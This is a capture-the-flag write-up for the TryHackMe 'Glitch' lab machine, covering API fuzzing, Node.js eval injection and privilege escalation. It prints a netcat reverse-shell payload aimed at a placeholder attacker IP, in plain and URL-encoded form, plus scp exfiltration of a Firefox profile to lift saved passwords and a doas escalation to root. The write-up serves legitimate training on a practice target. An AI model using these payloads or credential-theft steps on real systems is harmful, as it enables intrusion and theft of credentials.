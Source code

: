 ![GLITCH ROOM LOGO](./img/GLITCH.jpeg)
# GLITCH 
Challenge showcasing a web app and simple privilege escalation. Can you find the [glitch](https://tryhackme.com/room/glitch)?

## [Q1] Deploy the machine
Required OpenVPN to connect to corresponding server
## [Q2] What is your access token?
   Let's begin with scanning open ports of this machine

   ```
   $nmap -T4 <machine ip>

   Nmap scan report for <machine ip>
   Host is up (0.29s latency).
   Not shown: 999 filtered ports
   PORT   STATE SERVICE
   80/tcp open  http
   Nmap done: 1 IP address (1 host up) scanned in 23.42 seconds
   ```

   Port 80:
   ![Port 80](./img/site1.jpg)
   By looking at the source of the site, I found a script:

   ```JavaScript
    <script>
        function getAccess() {
            fetch('/api/access')
            .then((response) => response.json())
            .then((response) => {
                console.log(response);
            });
        }
    </script>
```
I run the getAccess() function through the browser by console tab, but you can also access that by browsing to \<machine ip>/api/access

![](./img/Console.jpg)

By decoding, I will get the original token and should set that in cookie

![Session cookie](./img/session.jpg)

## [Q3] What is the content of user.txt?
Now refresh the page.
Feel free to surf the site after that XD

***

Warning! The site contains blinking images and sensitive words.

***

After looking at the source and linked [JS](./src/script.js) file, I figured out that there are several links in the page that interact with \<machine ip>/api/items/ 

\<machine ip>/api/items :
![/api/items](./img/items.jpg)

There is a hint on THM:

    What other methods does the API accept?

Let's check the methods by sending an **OPTION** http request
    
    Allow: GET,HEAD,POST

So I should fuzz the site to find valid arguments

    └─$wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 <machine ip>/api/items\?FUZZ\=test

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: <machine ip>/api/items?FUZZ=test
    Total requests: 3132

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================

    000000358:   500        10 L     64 W       1081 Ch     "cmd"                                               

    Total time: 0
    Processed Requests: 3132
    Filtered Requests: 3131
    Requests/sec.: 0

Let's check cmd

    └─$ curl -X POST <machine ip>/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>


So it's a **Node.JS**. Maybe I can get rce by Node.js eval ...


Reverse shell payload:

    require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker IP> <Attacker Port> >/tmp/f ')

First, I must encode the payload as a URL, and then It's good to go

    └─$ curl -X POST <Machine IP>/api/items\?cmd\=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%3c%41%74%74%61%63%6b%65%72%20%49%50%3e%20%3c%41%74%74%61%63%6b%65%72%20%50%6f%72%74%3e%20%3e%2f%74%6d%70%2f%66%20%27%29

I have a reverse shell :D

    └─$ nc -nvlp 4444             
    listening on [any] 4444 ...
    connect to [<Attacker IP>] from (UNKNOWN) [<Machine IP>] 32804
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    user@ubuntu:/var/web$ ls /home
    ls /home
    user  v0id
    user@ubuntu:/var/web$ cd /home/user/ 
    cd /home/user/
    user@ubuntu:~$ cat user.txt
    cat user.txt
    THM{REDACTED}


## [Q4] What is the content of root.txt?

User's Home Directory:

    user@ubuntu:~$ ls -la
    ls -la
    total 48
    drwxr-xr-x   8 user user  4096 Jan 27 10:33 .
    drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
    lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
    -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
    drwx------   2 user user  4096 Jan  4 13:41 .cache
    drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
    drwx------   3 user user  4096 Jan  4 13:41 .gnupg
    drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
    drwxrwxr-x   5 user user  4096 Apr  2 16:11 .pm2
    drwx------   2 user user  4096 Jan 21 08:47 .ssh
    -rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt

linPEAS interesting results:

    [+] Checking doas.conf
    permit v0id as root  

    [+] Users with console
    root:x:0:0:root:/root:/bin/bash      
    user:x:1000:1000:user:/home/user:/bin/bash
    v0id:x:1001:1001:,,,:/home/v0id:/bin/bash

For now, I'm going to check firefox hidden directory by sending that to my machine

    user@ubuntu:~$ tar -cvf firefox.tgz .firefox 

    ---
    Don't forget to start ssh in your Attacker machine
    ---

    user@ubuntu:~$ scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    <Attacker Machine username>@<Attacker IP>'s password:

    firefox.tgz                                   100%   15MB 385.3KB/s   00:39 


Now in my machine:

    └─$ tar -xvf firefox.tgz 
    └─$ firefox --profile .firefox/b5w4643p.default-release --allow-downgrade

This will open the firefox browser and I can head to saved passwords

![void pass](./img/firefox.jpg)

Now with linPEAS' output and saved password in the firefox for user v0id I can retrieve /root/root.txt

    user@ubuntu:~$ su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    Password: 

    Password: 

    THM{REDACTED}

